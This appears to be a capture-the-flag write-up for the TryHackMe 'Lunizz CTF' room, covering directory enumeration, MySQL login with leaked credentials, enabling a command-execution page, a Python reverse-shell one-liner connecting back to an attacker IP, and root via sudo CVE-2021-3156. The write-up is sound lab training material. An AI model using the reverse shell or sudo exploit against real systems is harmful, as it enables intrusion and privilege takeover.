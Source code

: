 ```yaml
---
description: vulnerable sudo version.
---
```


# 21 - Lunizz CTF

Room Link --> [https://tryhackme.com/room/lunizzctfnd](https://tryhackme.com/room/lunizzctfnd)

### Enumeration

#### Gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.68.127 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 500 2>/dev/null

# output:
/instructions.txt
/whatever
/hidden
```
{% endcode %}

Navigating to "/whatever" gives us a command injection interface. But we can't execute any cmds.

Seems we found a credential at "/instructions.txt". Seems like a mysql login.

{% code lineNumbers="true" %}
```bash
runcheck:CTF_script_cave_changeme

# login mysql
mysql -h 10.10.68.127 -u runcheck -p

# enumerate the db.
show databases;
use <dbname>;
show tables;
select * from <tablename>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption><p>logged in</p></figcaption></figure>

We got the column name --> "run".

From the Table “runcheck”, we were able to find the name of the column which looks to be controlling the command executer as it’s value is 0 currently. We can update this value to 1 and check if we can exeute something.

```
update runcheck set run=1;
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we can execute cmds now.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Gaining Rev shell.

Start a nc listener, then i used a python one-liner rev shell from payloadallthings to obtain shell.

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.88.214",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

I used "linux-exploit-suggester.sh" to enumerate the machine.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It seems like this version of `sudo` is vulnerable to the [CVE-2021-3156](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) vulnerability. This exploit abuses all sudo versions lower than version `1.8.31`. This vulnerability gives you `root` privileges right away! We should also check which Ubuntu version is installed by running: `lsb_release -a`.&#x20;

Follow the instructions here to get root.

[https://github.com/CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156)

